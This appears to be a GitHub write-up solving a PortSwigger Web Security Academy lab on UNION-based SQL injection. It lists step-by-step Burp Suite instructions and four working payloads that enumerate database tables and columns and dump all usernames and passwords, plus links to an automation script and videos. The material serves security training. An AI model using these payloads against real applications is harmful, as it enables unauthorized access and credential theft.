 # Lab 9: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

# Solution
> Manual Exploitation
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: ```'+UNION+SELECT+'abc','def'--```
3. Use the following payload to retrieve the list of tables in the database: ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--```
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: ```'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--```
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: ```'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--```
8. Find the password for the administrator user, and use it to log in.

> Scripting the attack: [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/SQL-Injection/lab-09/sqli-lab-09.py)

## Payload



## Video Solution
1. Manual: [Rana Khalil's Youtube Video](https://youtu.be/JduM_dO8glw)
2. Automating the attack: [Rana Khalil's Youtube Video](https://www.youtube.com/watch?v=n2YxdgX5SJA&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf&index=10)
